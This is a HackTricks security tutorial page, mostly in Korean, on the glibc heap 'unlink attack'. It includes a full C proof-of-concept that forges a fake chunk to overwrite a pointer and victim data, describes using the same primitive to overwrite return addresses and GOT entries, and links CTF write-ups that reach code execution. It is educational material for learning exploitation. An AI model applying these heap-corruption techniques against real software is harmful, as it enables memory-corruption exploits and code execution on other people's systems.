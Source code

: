 # Unlink Attack

<details>

<summary><strong>htARTE (HackTricks AWS Red Team 전문가)로부터 AWS 해킹을 처음부터 전문가까지 배우세요</strong></summary>

다른 방법으로 HackTricks를 지원하는 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## 기본 정보

이 공격이 발견될 당시 대부분 WWW (Write What Where)를 허용했지만, 일부 **검사가 추가**되어 공격의 새 버전이 더 흥미롭고 더 복잡하며 **쓸모없는** 것으로 만들어졌습니다.

### 코드 예시:

<details>

<summary>코드</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 공격은 tcaches가 사용되면 작동하지 않습니다 (2.26 이후)

### 목표

이 공격은 **덩어리를 가리키는 포인터를 자신의 3 주소 앞으로 변경**할 수 있게 합니다. 이 새로운 위치(포인터가 위치한 주변)에 흥미로운 내용(다른 제어 가능한 할당/스택 등)이 있다면, 그것들을 읽거나 덮어쓰기하여 더 큰 피해를 줄 수 있습니다.

* 만약 이 포인터가 스택에 위치한다면, 이제 3 주소 앞을 가리키고 있기 때문에 사용자가 읽고 수정할 수 있으므로, 스택에서 민감한 정보를 유출하거나 심지어 canary를 건드리지 않고 반환 주소를 수정할 수 있을 것입니다.
* CTF 예시에서, 이 포인터는 다른 할당에 대한 포인터 배열에 위치해 있으므로, 3 주소 앞을 가리키도록 만들고 읽고 쓸 수 있게 되면, 다른 포인터들을 다른 주소를 가리키도록 만들 수 있습니다.\
사용자가 다른 할당도 읽고 쓸 수 있기 때문에, 정보를 유출하거나 임의의 위치(예: GOT)에 새로운 주소를 덮어쓸 수 있습니다.

### 요구 사항

* 메모리(예: 스택)에서 일부 제어를 얻어 일부 속성에 값을 제공하여 몇 개의 덩어리를 만들 수 있어야 합니다.
* 가짜 덩어리의 포인터를 설정하기 위해 스택 유출이 필요합니다.

### 공격

* 두 개의 덩어리가 있습니다 (chunk1 및 chunk2)
* 공격자는 chunk1의 내용과 chunk2의 헤더를 제어합니다.
* chunk1에서 공격자는 가짜 덩어리의 구조를 만듭니다:
* 보호 기능을 우회하기 위해 `size` 필드가 올바른지 확인하여 `corrupted size vs. prev_size while consolidating` 오류를 피합니다.
* 그리고 가짜 덩어리의 `fd` 및 `bk` 필드가 chunk1 포인터가 저장된 위치를 가리키도록 만들어야 합니다. 이때 오프셋은 각각 -3 및 -2이므로 `fake_chunk->fd->bk` 및 `fake_chunk->bk->fd`가 실제 chunk1 주소가 있는 메모리(스택) 위치를 가리키게 됩니다:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2의 헤더는 수정되어 이전 덩어리가 사용되지 않았음을 나타내고 가짜 덩어리의 크기가 포함된 크기임을 나타냅니다.
* 두 번째 덩어리가 해제되면 이 가짜 덩어리가 연결 해제됩니다:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 이전에 `fake_chunk->fd->bk` 및 `fake_chunk->fd->bk`가 동일한 위치(스택에 chunk1이 저장된 위치)를 가리키도록 만들었으므로 유효한 연결된 목록이었습니다. **두 위치가 동일한 위치를 가리키고 있기 때문에** 마지막 것만(`fake_chunk->bk->fd = fake_chunk->fd`) **적용**됩니다.
* 이로 인해 스택에 있는 chunk1의 포인터가 스택에서 3 주소 앞에 저장된 주소(또는 바이트)로 덮어씌워집니다.
* 따라서, 공격자가 다시 chunk1의 내용을 제어할 수 있다면, 스택 내부에 **쓸 수 있게** 되어 반환 주소를 덮어쓰고 canary를 건드리지 않고 로컬 변수의 값을 및 포인터를 수정할 수 있을 것입니다. 또한 다시 chunk1이 스택에 저장된 주소를 다른 위치로 변경할 수 있게 되면, 공격자가 다시 chunk1의 내용을 제어할 수 있다면 어디든 쓸 수 있을 것입니다.
* 이것이 가능했던 이유는 **주소가 스택에 저장**되어 있었기 때문입니다. 위험 및 악용은 **가짜 덩어리의 주소가 어디에 저장되어 있는지**에 따라 달라질 수 있습니다.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 참고 자료

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTF에서 심지어 unlink 공격을 찾는 것이 이상할 수 있지만, 이 공격이 사용된 writeup을 확인할 수 있는 몇 가지 예시가 있습니다:
* CTF 예시: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* 이 예시에서는 스택 대신에 malloc된 주소의 배열이 있습니다. unlink 공격은 여기에 덩어리를 할당할 수 있도록 수행되어, malloc된 주소의 배열의 포인터를 제어할 수 있게 됩니다. 그런 다음, 이러한 주소의 덩어리 내용을 수정할 수 있는 다른 기능이 있어서 주소를 GOT로 가리키게 하고 함수 주소를 수정하여 leaks 및 RCE를 얻을 수 있습니다.
* 다른 CTF 예시: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 이전 예시와 마찬가지로, 할당 주소의 배열이 있습니다. unlink 공격을 수행하여 첫 번째 할당 주소가 배열 시작 부분보다 앞에 있는 몇 가지 위치를 가리키도록 만들고, 그런 다음 이 새 위치에 할당을 덮어씁니다. 따라서, 다른 할당의 포인터를 GOT의 atoi로 가리키도록 덮어쓰고 libc leak을 얻기 위해 이를 출력하고, 그런 다음 atoi GOT을 one gadget 주소로 덮어쓸 수 있습니다.
* unlink 공격과 매우 유사한 취약점을 악용하는 사용자 정의 malloc 및 free 함수가 있는 CTF 예시: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* 사용자 정의 malloc의 FD 및 BK 포인터를 제어할 수 있는 오버플로우가 있습니다. 또한, 힙에 exec 비트가 있어서 힙 주소를 유출하고 GOT의 함수를 힙 덩어리에 쉘코드로 가리키는 것이 가능합니다.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
